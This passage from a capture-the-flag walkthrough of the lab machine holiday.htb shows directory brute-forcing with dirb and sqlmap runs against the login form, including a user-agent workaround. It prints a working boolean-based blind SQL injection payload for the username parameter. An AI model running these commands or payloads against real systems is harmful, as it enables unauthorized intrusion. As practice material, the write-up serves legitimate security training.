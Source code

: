 Right away, it looks like the only interesting result is Node.js running on port 8000. It takes us to a landing page without any links, so that means it's `dirb` time, and that almost immediately finds the /admin portal:
{% highlight shell %}
~ » dirb http://holiday.htb:8000
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

[...]                                                       

---- Scanning URL: http://holiday.htb:8000/ ----
+ http://holiday.htb:8000/admin (CODE:302|SIZE:28) 
[...]
{% endhighlight %}

Whenever we hit a login page, its smart to run sqlmap on it as you poke at it yourself. Sometimes it will find something you wouldn't, or vice versa. In this case, initially running sqlmap returns a 404:
{% highlight shell %}
~ » sqlmap -u http://holiday.htb:8000/login --data="username=a&password=b" --proxy=http://localhost:8080 
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.1.10#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 17:01:18

[17:01:18] [INFO] testing connection to the target URL
[17:01:18] [CRITICAL] page not found (404)
{% endhighlight %}

Since we're running sqlmap through our Burp proxy (you are, right?), we can compare our manual test to sqlmap's. This allows me to see that the only missing piece is our User-Agent. Luckily, sqlmap has a solution for that:
{% highlight shell %}
~ » sqlmap -u http://holiday.htb:8000/login --data="username=a&password=b" --proxy=http://localhost:8080 --random-agent
{% endhighlight %}
and it runs successfully and tells us know that `username` is injectable, and that this is a SQLlite database.
{% highlight shell %}
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 720 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=a") OR NOT 3880=3880 AND ("gFXq"="gFXq&password=b
---
{% endhighlight %}
